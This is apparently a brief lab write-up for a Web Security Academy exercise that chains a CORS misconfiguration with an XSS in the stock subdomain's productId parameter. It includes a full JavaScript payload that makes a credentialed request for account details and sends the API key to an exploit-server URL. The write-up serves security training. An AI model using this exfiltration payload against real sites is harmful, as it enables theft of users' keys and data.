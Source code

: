First we checked that if we change the sub-domain the response shows ACAO with the sub-domain included
![[Pasted image 20250214180745.png]]

For same reason you need to know where you can find a XXS, which is on the stock request in the productID parameter. The capture below shows the vulnerability
![[Pasted image 20250214182807.png]]
Then we can send this script to get the API Key

```JS
<script> document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"</script>
```